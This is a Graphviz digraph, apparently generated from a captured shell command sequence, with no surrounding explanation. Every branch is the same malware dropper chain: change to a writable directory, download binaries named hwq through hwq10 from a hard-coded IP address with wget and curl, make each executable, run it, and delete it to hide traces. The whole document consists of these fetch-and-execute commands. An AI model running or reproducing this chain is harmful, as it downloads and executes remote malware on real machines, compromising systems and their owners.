digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://89.39.107.56/hwq "];
10 -> 12 [label=";,"];
12 [label="curl -O http://89.39.107.56/hwq "];
12 -> 14 [label=";,"];
14 [label="chmod +x hwq "];
14 -> 16 [label=";,"];
16 [label="./hwq "];
16 -> 18 [label=";,"];
18 [label="rm -rf hwq "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://89.39.107.56/hwq1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://89.39.107.56/hwq1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x hwq1 "];
34 -> 36 [label=";,"];
36 [label="./hwq1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf hwq1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://89.39.107.56/hwq2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://89.39.107.56/hwq2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x hwq2 "];
54 -> 56 [label=";,"];
56 [label="./hwq2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf hwq2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://89.39.107.56/hwq3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://89.39.107.56/hwq3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x hwq3 "];
74 -> 76 [label=";,"];
76 [label="./hwq3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf hwq3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://89.39.107.56/hwq4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://89.39.107.56/hwq4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x hwq4 "];
94 -> 96 [label=";,"];
96 [label="./hwq4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf hwq4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://89.39.107.56/hwq5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://89.39.107.56/hwq5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x hwq5 "];
114 -> 116 [label=";,"];
116 [label="./hwq5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf hwq5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://89.39.107.56/hwq6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://89.39.107.56/hwq6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x hwq6 "];
134 -> 136 [label=";,"];
136 [label="./hwq6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf hwq6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://89.39.107.56/hwq7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://89.39.107.56/hwq7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x hwq7 "];
154 -> 156 [label=";,"];
156 [label="./hwq7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf hwq7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://89.39.107.56/hwq8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://89.39.107.56/hwq8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x hwq8 "];
174 -> 176 [label=";,"];
176 [label="./hwq8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf hwq8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://89.39.107.56/hwq9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://89.39.107.56/hwq9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x hwq9 "];
194 -> 196 [label=";,"];
196 [label="./hwq9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf hwq9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://89.39.107.56/hwq10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://89.39.107.56/hwq10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x hwq10 "];
214 -> 216 [label=";,"];
216 [label="./hwq10 "];
216 -> 217 [label=";,"];
}
